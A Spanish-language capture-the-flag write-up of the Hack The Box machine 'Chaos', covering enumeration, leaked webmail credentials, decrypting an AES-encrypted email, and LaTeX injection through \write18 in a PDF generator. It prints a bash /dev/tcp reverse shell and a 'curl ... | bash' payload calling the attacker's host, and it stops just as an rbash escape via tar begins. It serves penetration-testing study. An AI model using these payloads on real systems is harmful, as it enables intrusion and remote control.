# Chaos — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟡 Medio
**SO:** Linux
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Vhost fuzzing · WordPress (post protegido con credenciales filtradas) · Cliente de correo (Claws Mail / IMAP) · Cifrado AES-256-CBC propio (script en GitHub) · Base64 · **LaTeX Injection** (`\write18`) → RCE · Escape de `rbash` (GTFOBins `tar`) · PATH hijacking · Robo de perfil de Firefox + `firefox_decrypt` · Reutilización de contraseñas → root

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — LaTeX Injection en un generador de PDF oculto](#3-acceso-inicial--latex-injection-en-un-generador-de-pdf-oculto)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Empezamos, como siempre, comprobando la disponibilidad del host y estimando el sistema operativo por el TTL:

```bash
ping -c 1 10.129.40.27
```



TTL de **63** → sistema **Linux**.

Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.40.27 -oN AllPorts
```



Aparecen seis puertos: **80** (http), **110/995** (pop3/pop3s), **143/993** (imap/imaps) y **10000** (`snet-sensor-mgmt`, típico de **Webmin**). Escaneo de versión y scripts por defecto:

```bash
nmap -sCV -T5 -p80,110,143,993,995,10000 10.129.40.27 -oN Ports
```



| Puerto | Servicio | Detalle |
|--------|----------|---------|
| 80 | Apache 2.4.34 (Ubuntu) | Sin título |
| 110/143/993/995 | Dovecot (pop3d/imapd) | Certificado con `commonName=chaos` |
| 10000 | MiniServ 1.890 (Webmin httpd) | Panel de administración Webmin |

> 💡 Un servidor de correo completo (POP3/IMAP, con y sin TLS) más un panel **Webmin** en el 10000 sugieren que el correo interno de la máquina va a ser relevante en la cadena de ataque, y que Webmin es probablemente el objetivo final de escalada (acceso total al sistema vía su interfaz web).

Al visitar el puerto 80 directamente por IP, el servidor rechaza la petición:



> 💡 `Direct IP not allowed` es una configuración de Apache que exige un **`Host:` header** válido (virtual host) — es señal de que hay uno o más nombres de dominio configurados que aún no conocemos.

El puerto 10000 redirige de HTTP a HTTPS (Webmin fuerza SSL):



Y en HTTPS aparece el login de **Webmin**:



## 2. Enumeración del servicio web

Con el vhost bloqueando el acceso directo por IP, probamos igualmente un escaneo de directorios sobre la IP para ver si algún recurso obliga a una redirección que revele el nombre real del dominio:

```bash
sudo gobuster dir -u http://10.129.40.27/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x .html,.py,.php,.js
```



Aparece `/wp/`, que redirige. Al intentar seguirlo directamente por nombre de dominio adivinado (`wordpress.chaos.htb`), el navegador no puede resolverlo porque aún no está en nuestro `/etc/hosts`:



Añadimos los dominios:

```
10.129.40.27    chaos.htb wordpress.chaos.htb
```



Ahora sí, `wordpress.chaos.htb` carga un sitio **WordPress** ("Just another WordPress site"). Entre las entradas del blog hay una marcada como **"Protected: chaos"**, firmada por el usuario **`human`**, que revela credenciales en texto plano:



```
Creds for webmail:
username – ayush
password – jiujitsu
```

> 💡 Un post "protegido" de WordPress normalmente pide una contraseña para leerse, pero aquí el contenido ya estaba accesible — un fallo de configuración que expone credenciales de correo pensadas para uso interno del equipo.

## 3. Acceso inicial — LaTeX Injection en un generador de PDF oculto

Con credenciales de correo (`ayush:jiujitsu`) y sabiendo que la máquina expone POP3/IMAP, configuramos un cliente de correo (**Claws Mail**) apuntando al servidor `chaos.htb`:






Revisando el buzón de `ayush`, en la carpeta **Drafts** hay un correo sin enviar, dirigido a un tal `sahay`, con dos adjuntos:



```
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush
```

Adjuntos: `enim_msg.txt` (cifrado) y `en.py` (el script usado para cifrar):



Abrimos `en.py` para entender el algoritmo de cifrado:



```python
def encrypt(key, filename):
    ...
    encryptor = AES.new(key, AES.MODE_CBC, IV)
    ...

def getKey(password):
    hasher = SHA256.new(password.encode('utf-8'))
    return hasher.digest()
```

> 💡 Es **AES-256 en modo CBC**, derivando la clave como `SHA256(password)`. El propio correo nos da la pista de la contraseña ("You are the password", dirigido a `sahay`): la contraseña de cifrado es literalmente **`sahay`**, el nombre del destinatario.

Buscando ese código en internet, aparece publicado en un repositorio de GitHub con su script de descifrado correspondiente:

```
https://github.com/vj0shii/File-Encryption-Script
```

Lo descargamos:

```bash
wget https://raw.githubusercontent.com/vj0shii/File-Encryption-Script/refs/heads/master/decrypt.py
```



Y descifrarnos `enim_msg.txt` con la contraseña `sahay`:

```bash
python3 decrypt.py
Enter filename: enim_msg.txt
Enter password: sahay
```



Esto genera `im_msg.txt`, cuyo contenido es una cadena en **Base64**:



```bash
base64 -d im_msg.txt
```



```
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/

Thanks,
Ayush
```

> 💡 Tres capas de ofuscación (cifrado AES casero → Base64 → ruta "secreta" no enlazada desde ningún sitio) escondían una simple URL. El propio correo terminó siendo la única forma de descubrirla, ya que no aparecía en ningún escaneo de directorios.

Visitamos esa ruta oculta en `chaos.htb` y encontramos un servicio interno en desarrollo que genera PDFs a partir de una plantilla:



> 💡 "Chaos Inc soon gonna launch this service... currently only one template is working" — un servicio de generación de PDF suele implementarse renderizando una plantilla con un motor como **LaTeX**, y eso abre la puerta a **LaTeX Injection** si el contenido del usuario se inserta sin sanitizar dentro del documento `.tex`.

Interceptamos el tráfico con Burp Suite para ver la petición real que dispara la generación:



La petición es un `POST` a `.../ajax.php` con dos parámetros, `content` y `template`. La respuesta a una petición benigna (`content=prueba&template=test1`) filtra el **log completo de compilación de pdfTeX**:



```
LOG:
This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)
\write18 enabled.
entering extended mode
```

> 💡 **`\write18 enabled`** es la confirmación definitiva: esta directiva de LaTeX permite ejecutar **comandos del sistema operativo** directamente desde el documento fuente, si el motor no la tiene deshabilitada (que es la configuración por defecto recomendada, pero aquí está activa). Consultamos la referencia de PayloadsAllTheThings para LaTeX Injection y ejecución de comandos:

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
```



```latex
\immediate\write18{whoami}
```

Probamos inyectando esta directiva en el parámetro `content`:

```
content=\immediate\write18{whoami}&template=test2
```

La respuesta, entre el resto del log de LaTeX, revela **`www-data`** — confirmando ejecución de comandos en el servidor:



## 4. Obtención de shell

Preparamos un script `index.html` con una reverse shell en Bash:

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.14.200/443 0>&1
```



Lo servimos con un servidor HTTP simple:

```bash
python3 -m http.server 80
```



Y enviamos el payload final, que descarga el script y lo ejecuta con `bash`:

```
content=\immediate\write18{curl http://10.10.14.200:80 | bash}&template=test2
```



Con el listener ya preparado:

```bash
nc -lvnp 443
```

Recibimos la conexión como **`www-data`**:



### Escalada de privilegios

Con las credenciales de correo obtenidas antes (`ayush:jiujitsu`), probamos cambiar de usuario — la contraseña se reutiliza también como contraseña de sistema:

```bash
su ayush
```



`/home` contiene dos usuarios: `ayush` y `sahay`. Sin embargo, el shell de `ayush` está claramente **restringido**:

```bash
ls
```

```
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```



> 💡 Es un **`rbash`** (restricted bash): no permite usar rutas con `/`, cambiar de directorio libremente, ni modificar variables como `PATH`. Pulsando **TAB dos veces** en un shell interactivo, Bash intenta autocompletar mostrando todos los comandos disponibles en el `PATH` actual — una forma rápida de enumerar qué nos está permitido ejecutar:



Entre los comandos permitidos aparece **`tar`**, que tiene una técnica de escape conocida en GTFOBins:

